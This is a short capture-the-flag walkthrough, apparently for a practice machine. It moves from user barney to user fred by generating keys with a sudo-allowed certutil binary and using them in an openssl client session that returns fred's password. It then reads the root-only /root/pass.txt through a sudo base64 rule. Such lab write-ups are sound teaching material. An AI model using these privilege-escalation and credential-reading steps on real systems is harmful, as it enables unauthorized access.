 we got that barney user can run /usr/bin/certutil (I think this is a binary that was created by creator)

running that we get the help page saying that we can run 'ls' and 'user user' as an arguments

it was a java file you can cat it out if you want

```bash
sudo /usr/bin/certutil ls
```
we get the ls -la command on some directory

what I am interested is to get to fred user
so, type with me

## switching to fred user
```bash
sudo /usr/bin/certutil fred fred
```

It creates a private and public key

copy that and save as pri.key and pub.key

repeat the process that we did for barney

## getting fred's password
```bash
openssl s_client -connect <ip>:54321 -cert pub.key -key priv.key 
```

type password

you will get
```
Yab<redacted>0000!
```
## getting into fred
ssh to the box as fred
```bash
ssh fred@<ip>
```
put in the password (sorry paste it, I know you can't type)

and we are fred

running 
```bash
sudo -l
```
## Privilege escalation
we get we can run /usr/bin/base64 or base32 on /root/pass.txt

so let's run that with base64
```
TEZLRUM[REDACTED]YVVJUTEpaS0ZTU1lL
```
